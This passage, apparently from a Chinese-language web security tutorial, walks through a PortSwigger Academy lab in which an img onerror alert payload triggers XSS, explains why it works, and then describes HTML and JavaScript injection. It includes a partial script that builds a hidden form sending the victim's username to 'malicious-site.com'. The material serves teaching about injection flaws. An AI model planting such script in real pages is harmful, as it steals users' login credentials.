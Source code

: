 图 9.8 – 警报负载

一旦成功，你将看到警报负载，PortSwigger Academy 实验会祝贺你。做得好！

## 它是如何工作的...

之所以有效，是因为**src**属性的值（**1**）不正确，从而抛出错误。但由于这个错误，一旦**onerror**事件处理程序被激活，负载中的**alert()**函数将被调用。每当客户端尝试加载包含执行负载的恶意 POST 请求的网页时，都会发生以下结果。

当输出未正确编码且用户输入未经过适当清理时，应用程序会暴露于注入漏洞，攻击者可以精心设计恶意 HTML 页面并将其发送给目标进行处理。受害者的浏览器将解析并执行整个构造的页面，因为它无法理解合法代码和恶意 HTML 代码中的好部分。

## 还有更多…

HTML 注入与 JavaScript 执行类似，都是通过将恶意代码注入到 Web 应用程序中，并让浏览器执行这些代码。HTML 注入是将 HTML 代码注入到网站中，通常通过更改输入字段或 URL 参数来实现。浏览器随后会渲染这些注入的代码，这可能会改变网站的结构和设计。或者，JavaScript 注入是指插入 JavaScript 代码。攻击者可以通过多种方式执行 HTML 注入，如下所示：

+   **窃取用户数据**：当网页加载时，攻击者可能会注入 JavaScript 代码来窃取用户信息，如登录凭证。例如，攻击者可能插入代码，生成一个隐藏的表单，并自动将其填充到他们控制的服务器上，从而让他们接收用户的信息。例如，代码可能如下所示：

    ```
     <script>
    ```

    ```
     function stealData() {
    ```

    ```
     var form = document.createElement("form");
    ```

    ```
     form.setAttribute("method", "post");
    ```

    ```
     form.setAttribute("action", "http://malicious-site.com");
    ```

    ```
     var loginInput = document.createElement("input");
    ```

    ```
     loginInput.setAttribute("type", "hidden");
    ```

    ```
     loginInput.setAttribute("name", "username");
    ```

    ```
     loginInput.setAttribute("value", document.getElementById("username").value);
    ```

    ```
     form.appendChild(loginInput);
    ```
